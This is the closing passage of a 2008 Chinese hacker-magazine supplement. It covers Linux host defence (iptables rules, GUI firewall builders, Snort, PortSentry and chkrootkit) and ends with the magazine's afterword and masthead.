iptables 是一款 Linux 下的包过滤防火墙。从内核版本 2.4.x 开始它就被集成到 Linux 中了，可见其功能的强大。它其实应该是 netfilter/iptables IP 信息包过滤系统，由两个组件 netfilter 和 iptables 组成。netfilter 组件也称为内核空间（kernelspace），是内核的一部分，由一些信息包过滤表组成，这些表包含内核用来控制信息包过滤处理的规则集。iptables 组件是一种工具，也称为用户空间（userspace），它使插入、修改和除去信息包过滤表中的规则变得容易。

iptables 的规则设置还是挺复杂的，这里只能说重点了。在这里就简单讲一下临时处理数据包的方法吧！在遇到突发情况，如被人攻击的时候，这些是你可能用得到的，其它的就自学吧。光盘中为大家准备了一份比较完善的 iptables 教程，希望对你有所帮助。

```
iptables -t filter -A INPUT -s 111.111.111.111/24 -j DROP
```

比如我们发现 111.111.111.111/24 正在攻击我们的服务器，那我们可以用命令 `iptables -t filter -A INPUT -s 111.111.111.111/24 -j DROP` 来添加一条记录，阻止这个网段的所有数据包。其中“-A INPUT”（注意大小写）就表示流入的数据包访问这台主机，只需要将命令改为“`iptables -t filter -A OUTPUT -d 111.111.111.111/24 -j DROP`”就可以了。要删除这个规则，只要把命令中的“-A”改为“-D”。

这个工具另外一个常用功能就是控制 ICMP，这个很有用，没必要多说了吧？命令为：“`iptables -A FORWARD -p icmp -m limit --limit 1/s --limit-burst 10 -j ACCEPT`”。

iptables 还可以做数据转发、NAT 等，这里就不详细列举了，以下是常用参数：

- `-A`：在一条规则链中加入一条新的规则。
- `-D`：删除一条规则链中某个位置的规则。
- `-N`：建立新的规则链。
- `-X`：删除一个空的规则链。
- `-P`：改变一个内置规则链的策略。
- `-L`：列出一条规则链中的规则。
- `-F`：擦写一条规则链中的规则。

虽然 iptables 的配置比较复杂，但你也不用沮丧，像其它优秀程序一样，iptables 也有图形化的配置程序。虽然使用这些程序没有直接命令行配置灵活，但一般的应用已经足够了。下面看看目前最流行的三款图形配置程序的介绍：

##### 1. Firewall Builder

这是一个完善的多平台图形化防火墙配置和管理工具，它将规则设计的细节隐藏起来，而着重于编写策略。不过它需要 X Windows，如果你的服务器没有其实也没关系，你可以在另一台电脑上配置好防火墙，然后将脚本导出，复制到你的服务器上使用就可以了。

##### 2. Firestarter

它是一款优秀的图形化防火墙生成向导，可以引导你一步一步地构建防火墙。对于与局域网共享唯一公网 IP 的 NAT 防火墙来说，这是一个不错的选择，并且在防火墙之后，它还有一些公共服务，或者一个分离的 DMZ。它拥有打开或关闭防火墙的一些简易命令，可以查看状态视图和当前的活动。

##### 3. Shorewall

Shorewall 是一个流行的防火墙生成器，它比 Firestarter 更加复杂和灵活，并且适合用于更加复杂的网络。它的文档资料丰富，并且提供不同情况的解决方法指南，如单一主机防火墙、两接口和三接口防火墙，以及拥有多个公共 IP 地址的防火墙等等。这虽然不是一个 GUI 程序，但它确实比较实用，值得推荐。

```
sudo apt-get install fwbuilder
sudo apt-get install firestarter
sudo apt-get install shorewall
```

你可以在 Ubuntu 下分别用命令安装这三款软件。


图 47 Firewall Builder

## 非安全·黑客手册 2008 第一增刊


图 48 Firestarter

上面这些只是一般的防火墙（暂且这么称呼吧），够你一般应用了，很多专业一点的 Linux 防火墙其实都是一个完整的防火墙系统，提供软路由和防火墙功能。它们很小，有的甚至可以运行在一张软盘上，像 Floppyfw。这种产品很多，功能也很强大，一般放在整个网络的前端抵御攻击，大家可以自己找来研究一下。

#### 5.3 入侵检测

可以说到目前为止，整个入侵检测行业都不完善，目前小有名气的相关软件有十几款，但大多都是独立的系统，或者跟防火墙绑在一起，能给桌面用户用的确实不多（个人感觉一般情况下你也用不到，服务器的话放一个吓吓人还是可以的），这其中比较出名的就是“Snort”了。

在 Ubuntu 下你可以用命令 `sudo apt-get install snort` 来安装，安装过程中会有一些设定，需要设定你的网络，如图 49。IP 是侦测后自动给出的，有问题你可以修改，我只用来监视我的网段，所以改成 `192.168.0.0/24`。如果你不明白这个地址，自己 Google 一下“CIDR”，Linux 下这种表示法经常用到。


图 49 设定网络

snort 是靠“规则”来工作的，它分析网络数据流以匹配用户定义的一些规则，并根据检测结果采取一定的动作。snort 支持插件，你可以根据需要扩展它的功能，对于规则，你也不用全部费心去制定，可以到 `http://www.snort.org` 下载已经制定好的规则包，直接解压缩来用就可以了，很方便。

一本 snort 手册，介绍得很详细，算是补偿吧。另外再推荐一个更轻量级的小工具——PortSentry，它是一个被设计成实时地发现端口扫描并对端口扫描快速作出反应的检测工具。一旦发现端口扫描，PortSentry 可以将相关信息记录到系统日志，并且通过 **/etc/hosts.deny** 来阻止入侵者。

## 5.4 病毒和 rootkit 检测

对于病毒，我想在 Linux 下你最应该担心的就是蠕虫和被人入侵后留下的后门。普通的 ELF 病毒和脚本病毒在 Linux 下很难生存，并且很多杀毒软件厂商都推出了相应的 Linux 下的杀毒软件，网上随便找找都有。而防止蠕虫最有效的方法就是修补漏洞（系统会帮你做好的）和一套强大的防火墙规则。这些已经说过了，那对于后门和 rootkit 呢？我们自然也有对策。

事物总是相克的，有 rootkit 自然也会有反 rootkit 的工具，最有名的应该就是“chkrootkit”了，通过命令 `sudo apt-get install chkrootkit` 安装。

这个软件能检测出目前大部分 rootkit，它的用法非常简单，只要直接执行 `chkrootkit` 命令就可以了，它会检查你的系统、程序等，如图 50。检查之后可以放心了，我的系统是安全的。


图 50 用 chkrootkit 检查系统

chkrootkit 也有几个简单的参数，其中“-q”表示使用安静模式，没有检查的过程；而如果你使用参数“-x”就会详细地列出检查过程和项目。另外一个有用的参数是“-r”，用这个参数可以改变 chkrootkit 检查的“根目录”，如果你有使用 chroot 环境，可以用这个参数来检查你的 chroot 环境是否有问题。

通过各种检查措施，如果你发现你的服务器被入侵了，并且确认对方得到了 root 权限，那最保险的方法就是备份必须的资料，然后重做或还原系统。因为如果对方有了 root 权限，你根本无法确定他在你的系统上都做了什么，他可以只用一个简单的命令就将自己的木马模块挂入内核执行，而这时，你已经无法相信你的系统了。

好了，关于安全防护方面就说到这里了，本文主要是针对主机方面进行的讨论，像 Apache、MySQL 等程序的安全设置在这里就有点偏题了，但你要知道，系统的安全和服务的安全是统一的，必须都做好才能提供一个稳定的服务。

### 六、写在最后

Linux 下的入侵和防御是一个很大的课题，由于版面关系我也只能给大家介绍一些皮毛，真的是皮毛的东西啊！风飘都觉得有点对不起大家，基本知识总算是给大家引导了一下，大约地对 Linux 下的攻防有了一个大体的概括（虽然很多深入点的东西都没介绍，像隧道技术等，呵呵，黑客要学会自己去 Google 哦），希望能对小菜的人们有帮助，能帮你理清思路。

Linux 能给我们提供一个强大自由的入侵平台，也给我们提供了一个稳定安全的服务环境，这一切就要看你怎么去使用。如果你对 Linux 下的攻防有兴趣，那就继续关注《黑客手册》的“窗外”栏目吧，精彩的内容可是你开着 Google 都找不到的哦。

## 后序

下卷的推出，意味着本增刊在2008年画上了一个圆满的句号。当然，是不完美的！也不可能完美！技术永无止境，知识永远追求。若要完美，就从今天开始，关注《非安全·黑客手册》吧！我们一起去进步，一起去接近完美。

首次推出的第一增刊，聚集了各路精英的倾囊力作，为大家奉献了他们自己的经验和技巧，这些高手笔下的晋级之路，可以指引读者快速通关。我们希望以后能够有更多愿意奉献自己经验与技巧的朋友参与进来，在中国浩瀚的书海中留下自己的文墨，结识更多志趣相投的朋友。增刊以不同的专题为章节，你可以选择自己最容易接受及最感兴趣的内容，这些都是精心筛选所确定留下来的。

天气越来越冷了，但我们的心却是火热的，让“菜虾共火”是我们坚持走的路，我们也一直以来就是以“捞大虾，带小菜”的火锅理念在这样做，希望有更多的读者一起来“共火”！

奥运举办成功了，神七上天回来了，“黑手”也出增刊了……我们有理由相信，2008年的冬天，中国将一扫上半年的阴霾，期待瑞雪兆丰年的来临……

最后，特别感谢各位作者给了《非安全》的信任和支持，我们将携手为广大 HACKING 爱好者带来更多实用知识，一起与技术进步，一起享受技术带给我们的快乐。在以后的岁月里，《非安全》会一如既往地关注技术，关注 HACK，关注安全，关注网络，关注一切……

## 非安全·黑客手册2008第一增刊

### 非安全增补本（下卷）


- 出版发行：非安全
- 专题作者：落叶纷飞、L.S.T@肇庆、梦幻剑客、x140cc、冰的原点、POP、认真的雪[E.S.T]、风飘雨
- 编辑：Python、LCX、空气、浪迹天涯、眼镜猴
- 特约编辑：风飘雨、小迷、XApache、张宇
- 平面规划：陈黎黎
- 网站：www.nohack.cn
- 网站编辑：空气
- 版权声明：图文版权所有，未经同意，不得转载。
- 投稿信箱：nohack@21cn.com
- 邮购查询：hope_wym@sina.com
- 光盘信箱：CD@nohack.cn
- 定价：29元